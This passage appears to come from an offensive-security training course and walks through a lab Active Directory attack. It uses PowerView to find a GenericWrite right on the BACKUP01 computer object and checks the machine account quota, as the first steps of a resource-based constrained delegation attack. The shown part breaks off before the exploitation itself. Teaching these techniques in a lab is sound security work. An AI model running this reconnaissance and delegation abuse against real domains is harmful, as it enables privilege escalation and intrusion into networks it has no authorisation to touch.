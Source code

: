 As usual, we begin with enumeration and log in to the _CLIENT01_ machine with the _adam_ user. As with previous sections, it does not matter where we perform the enumeration from as long as we can authenticate to the domain and communicate with the domain controller via LDAP.

In this case, we'll use PowerView to search for domain computers and pipe the information into **Get-ObjectAcl**, which will read the _ActiveDirectoryRights_ property. This will tell us what kind of permission an object has to another object. Let's start by searching for _GenericWrite_ permissions first.

```
PS C:\Tools> Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }

AceType               : AccessAllowed
ObjectDN              : CN=BACKUP01,OU=CorpComputers,DC=corp,DC=com
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3515682028-2106700410-3524882512-6101
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3515682028-2106700410-3524882512-1602
AccessMask            : 131132
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : CORP\mary
```

> Listing 20 - Enumerating GenericWrite permissions on computer objects

This reveals that the _mary_ user has GenericWrite on _BACKUP01_.

With this privilege, _mary_ can update any non-protected property on the machine, including the _msDS-AllowedToActOnBehalfOfOtherIdentity_, and add the SID of a different computer.

Once a SID is added, we can act in the context of that computer account and we can execute the S4U2Self and S4U2Proxy extensions to obtain a TGS for _BACKUP01_. To do this, we either have to obtain the password hash of a computer account or create a new computer object with a password of our choosing.

By default, any authenticated user can add up to ten computer accounts to the domain and they will have SPNs set automatically. This value is present in the _ms-DS-MachineAccountQuota_ property in the Active Directory domain object.

```
PS C:\Tools> Get-DomainObject -Identity corp -Properties ms-DS-MachineAccountQuota

ms-ds-machineaccountquota
-------------------------
                       10
```
